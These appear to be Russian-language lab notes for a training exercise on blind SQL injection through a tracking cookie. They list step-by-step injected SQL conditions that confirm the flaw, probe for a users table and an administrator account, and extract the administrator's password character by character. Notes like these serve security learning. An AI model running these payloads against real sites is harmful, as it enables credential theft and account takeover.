 Lab 11 - Blind SQL injection with conditional responses

Уязвимый параметр - tracking cookie

End Goals:  
1) Получить пароль администратора  
2) Войти как пользователь administrator

Analysis:

1) Подтвердить, что параметр уязвим к blind SQLi

select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN'  
-> Если этот tracking id существует -> запрос возвращает значение -> сообщение "Welcome back"  
-> Если tracking id не существует -> запрос ничего не возвращает -> нет сообщения "Welcome back"

select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and 1=1--'  
-> TRUE -> Welcome back

select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and 1=0--'  
-> FALSE -> нет Welcome back

2) Подтвердить, что существует таблица users

select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and (select 'x' from users LIMIT 1)='x'--'  
-> таблица users существует в базе данных.

3) Подтвердить, что пользователь administrator существует в таблице users

select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and (select username from users where username='administrator')='administrator'--'  
-> пользователь administrator существует

4) Извлечь пароль пользователя administrator

select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and (select username from users where username='administrator' and LENGTH(password)>20)='administrator'--'  
-> пароль ровно 20 символов

select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and (select substring(password,2,1) from users where username='administrator')='a'--'

